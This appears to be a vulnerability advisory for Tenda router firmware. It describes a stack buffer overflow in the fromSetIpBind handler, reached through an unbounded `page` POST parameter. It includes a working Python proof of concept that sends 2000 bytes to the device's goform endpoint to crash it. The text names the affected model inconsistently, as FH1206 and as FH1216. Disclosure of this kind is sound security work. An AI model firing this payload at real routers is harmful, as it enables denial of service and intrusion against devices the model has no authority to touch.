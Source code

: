 

# fromSetIpBind

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **fromSetIpBind** function. The function receives the `page` parameter from a POST request. ` sprintf(v8, "arp_bind.asp?page=%s", v2); ` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v8` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/c5882cbd-1911-4357-9c7c-733c660609e3)

## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fromSetIpBind"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/95ed87bd-a5ab-414d-95e9-fcc9e6b0176a)
